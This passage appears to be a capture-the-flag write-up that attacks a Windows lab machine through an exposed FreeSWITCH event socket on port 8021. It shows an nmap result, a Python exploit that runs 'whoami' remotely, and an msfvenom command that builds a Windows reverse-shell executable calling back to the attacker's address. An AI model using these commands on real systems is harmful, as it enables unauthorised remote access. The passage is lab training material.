 ```
| Frc6NW2UACE+Y5j4VeiihPFl2bZk4D97O/C6n21XBYeO6BK83wDxni39QG9H+r5/
| qgVrOPcSpyH8jwwfxzuxVNMFgmlVxQWpPmw6n5nX3MdtoIv0hk+XlU7e4K/MU670
| TIzBvqi23ufeMKwr7ROhiBqj4Najbig4cmHT6vNLasFVAlS7IDlYEPQs7XxAZd+L
| ZYBTmjO8tjMZbckOdtXGjjnYHDcFhw==
|_-----END CERTIFICATE-----

8021/tcp open  freeswitch-event syn-ack FreeSWITCH mod_event_socket

Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2m59s, deviation: 0s, median: 2m58s

```
Oh nice a windows machine!

The port 8021 got a weird service running

wikipedia said:

>FreeSWITCH is a free and open-source application server for real-time communication, WebRTC, telecommunications, video and Voice over Internet Protocol (VoIP).

Yeah now for the fun part, I add "exploit" to my search query 

Found some exploitdb results but I dont know the version

I also found a metasploit module but...hey let's try the python exploit first 

```
└──╼ $python3 exploit.py 10.10.58.12 whoami
Authenticated
Content-Type: api/response
Content-Length: 25

win-eom4pk0578n\nekrotic

```

well...it works so we should get a reverse shell from this (remember! it's windows)

We use a powershell payload (google or craft it with msfvenom)

So I craft it!

```
└──╼ $msfvenom -p windows/shell_reverse_tcp LHOST=10.8.226.203 LPORT=4444 -f exe -o shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: shell.exe

```

Serve it!
